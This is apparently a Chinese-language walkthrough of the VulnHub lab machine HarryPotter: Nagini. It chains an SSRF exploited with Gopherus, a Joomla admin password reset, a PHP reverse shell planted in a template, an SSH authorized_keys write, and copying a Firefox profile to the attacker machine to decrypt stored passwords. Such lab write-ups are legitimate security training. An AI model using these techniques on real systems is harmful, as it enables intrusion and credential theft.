



# HarryPotter-Nagini

> 靶机文档：[HarryPotter: Nagini](https://www.vulnhub.com/entry/harrypotter-nagini,689/)
>
> 下载地址：[**Download (Mirror)**]( https://download.vulnhub.com/harrypotter/Nagini.ova)


### 信息收集

#### 主机发现


访问80端口


#### 端口扫描


#### gobuster目录扫描

```bash
gobuster dir -u http://192.168.80.144 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```



#### dirsearch扫描

```bash
dirsearch -u 192.168.80.144
```


`/joomla`


==`/note.txt`==


>  需要我们用`http3`来访问https://quic.nagini.hogwarts

`/joomla/administrator后台`


#### joomscan扫描

> **Joomla**是一款知名的PHP语言编写的CMS系统。很多网站都使用Joomla!搭建而成。Kali  Linux集成了一款Joomla!网站扫描工具**joomscan**。该工具不仅可以对网站所使用的Joomla!版本、防火墙进行探测，还可以探测已知的漏洞，并生成文本或网页形式的报告

使用这个扫描器之前需要先`apt-get install joomscan`下载安装

```bash
 joomscan --url http://192.168.80.144/joomla
```


`/joomla/administrator`这个路径上面已经看过了，就是个后台管理页面，不知道用户名，也不知道密码

看看这个`configuration.php.bak`里面内容把

```bash
 wget  http://192.168.80.144/joomla/configuration.php.bak
```


```bash
 cat configuration.php.bak
```

发现了数据库的信息，用户名：`goblin`，没有密码


#### 实现http3访问

项目地址：https://github.com/cloudflare/quiche

```bash
sduo apt install cargo             #安装cargo组件
sudo apt install cmake             #安装cmake组件
sudo apt purge rustc               #卸载系统自带的rustc
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh   #重新安装最新版本的rustc
```

[kali安装rust开发环境](https://www.cnblogs.com/Gouwa/p/16895014.html)


```bash
source $HOME/.cargo/env       #执行环境变量
```


```bash
rustup --version
rustc --version
cargo --version
```


```bash
sudo apt-get install git           #安装git

git clone https://github.com/cloudflare/quiche.git   #下载quiche
```


```bash
cargo build --examples        #运行cargo默认实例的文件
cargo test                    #检查前面所有安装命令
cd  /quiche/target/debug/examples
./http3-client https://192.168.56.144     #利用http3的客户端去访问目标靶机
```

实在弄不出来，耽误时间！一直报错

---

最后用http3-client访问`https://quic.nagini.hogwarts`这个地址得到有用信息：**`/internalResourceFeTcher.php`**


访问后发现是一个搜索框的样子


输入地址 后，页面发生了跳转，说明存在`SSRF`漏洞


---

### 漏洞利用

#### Gopherus工具

使用[Gopherus](https://github.com/tarunkant/Gopherus.git)工具工具生成payload:

```python
python2 gopherus.py --exploit mysql
goblin  #输入数据库名
show databases;  #查询数据库 
```


得到gopher连接，直接放到浏览器`?url=`后面，我的会报错，所以我给他进行在二次编码，编码之后刚开始放在`?url=`后面可能内反应，多刷新几次页面，就能看到 结果了


得到数据库名`joomla`


重复上面的操作，**获取表名**


**获取数据**


> ```bash
> 用户名：site_admin
> 加密后的密文：<$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay 
> ```

密文解不出来，尝试生成 一个密文，修改数据库里的数据

```bash
 echo -n "JayChou" | md5sum
```


`5cfe4dfc7664b61eff2325db0caabd27`

使用工具修改`site_admin`用户的密码


密码修改成功！，可以使用`site_admin:JayChou`登陆管理员后台 


#### GetShell

对于这类的框架，有个常用的方法就是利用他们的主题，对主题中的文件进行修改，然后访问主题文件，本地监听，即可反弹shell


**使用`kali`自带的`php-reverse-shell.php`**

```bash
/usr/share/webshells/php/php-reverse-shell.php
```

修改`Protostar`里的`index.php`，将`php-reverse-shell.php`内容复制到`index.php`里面，然后`Save`保存


kali监听`1234`端口

浏览器访问`http://192.168.80.144/joomla/templates/protostar/index.php`,触发反弹shell



成功拿到shell，但不是交互的shell


#### 提权

```python
python3 -c "import pty;pty.spawn('/bin/bash')"
```

在网站根目录下发现第一个魂器`flag`


使用`base64`解码后，翻译


来到`/home`目录下，有两个用户，在`hermoine`目录下发现第二个魂器`flag`，但是没有权限查看


在 看看`snape`用户家里有啥东西


解码后得到

```bashe
echo "TG92ZUBsaWxseQ==" | base64 --decode
```


切换到`snape`用户


查看 有什么能用的


看到在`hermoine`用户下存在一个`su_cp`文件，我们`cd`到该目录下看看


使用`ssh-keygen`生成公钥


将生成的公钥上传到斯内普下 


来到`snape`家目录下

将` id_rsa.pub ` 重命名为 `authorized_keys`

```bash
mv id_rsa.pub authorized_keys
```

并且赋予执行权限


使用kali机器连接`hermoine`用户的时候还是让输入 密码，由于在于**==ahthorized_keys文件权限不得高于700==**

>  问题解决来源：https://blog.csdn.net/qq_39320261/article/details/128342057

然后重新给`authorized_keys`赋权限


现在可以免密登录赫敏了


切换到家目录下 ，查看第二个魂器`flag`


解码


`.mozilla`这个目录是Linux在使用火狐浏览器的时候，生成的，里面存在一些配置信息，更甚至有密码 

**发现了`.mozilla`目录里面有个`firefox`  使用工具：`firefox_decrypt`**


先将`.mozilla`目录复制到攻击机`kali`里面

```bash
scp -r .mozilla/  kali@192.168.80.141:/home/kali/tools
```



工具下载

```bash
git  clone https://github.com/unode/firefox_decrypt.git
```


```bash
python firefox_decrypt.py ../../tmp/.mozilla/firefox
```


==**root：@Alohomora#123**==


### 总结

- 实现http3的访问 【弄不出来】

- SSRF工具利用，以及`md5sum生成md5加密值`

- base64  --decode 的使用

- SSH公钥写入

- firefox_decrypt工具

  

